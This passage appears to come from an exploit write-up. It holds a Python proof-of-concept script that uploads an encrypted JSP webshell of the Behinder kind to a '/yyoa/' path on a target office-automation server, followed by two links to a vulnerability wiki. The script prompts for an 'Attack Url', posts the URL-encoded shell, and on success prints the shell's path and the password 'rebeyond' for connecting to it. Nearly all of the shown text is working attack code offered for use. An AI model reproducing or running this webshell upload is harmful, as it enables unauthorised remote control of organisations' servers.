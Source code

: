 ```python
    vuln_url = target_url + "/yyoa/{}?f={}".format(webshell_name, rebe_webshell)
    data = "t=%3C%25%40page%20import%3D%22java.util.*%2Cjavax.crypto.*%2Cjavax.crypto.spec.*%22%25%3E%3C%25!class%20U%20extends%20ClassLoader%7BU(ClassLoader%20c)%7Bsuper(c)%3B%7Dpublic%20Class%20g(byte%20%5B%5Db)%7Breturn%20super.defineClass(b%2C0%2Cb.length)%3B%7D%7D%25%3E%3C%25if%20(request.getMethod().equals(%22POST%22))%7BString%20k%3D%22e45e329feb5d925b%22%3Bsession.putValue(%22u%22%2Ck)%3BCipher%20c%3DCipher.getInstance(%22AES%22)%3Bc.init(2%2Cnew%20SecretKeySpec(k.getBytes()%2C%22AES%22))%3Bnew%20U(this.getClass().getClassLoader()).g(c.doFinal(new%20sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext)%3B%7D%25%3E"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        print("\033[32m[o] 正在请求：{}\033[0m".format(vuln_url))
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        if response.status_code == 200:
            print("\033[32m[o] 木马上传成功, 路径为:{}/yyoa/{}\033[0m".format(target_url, rebe_webshell))
            print("\033[32m[o] 请使用冰蝎连接，密码为: rebeyond\033[0m")
        else:
            print("\033[31m[x] 木马上传失败，可能被拦截 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url), e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

### Reference

http://wiki.peiqi.tech/PeiQi_Wiki/OA%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/%E7%94%A8%E5%8F%8BOA/%E7%94%A8%E5%8F%8B%20NCCloud%20FS%E6%96%87%E4%BB%B6%E7%AE%A1%E7%90%86SQL%E6%B3%A8%E5%85%A5.html

http://wiki.peiqi.tech/PeiQi_Wiki/OA%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/%E7%94%A8%E5%8F%8BOA/%E7%94%A8%E5%8F%8B%20U8%20OA%20test.jsp%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html

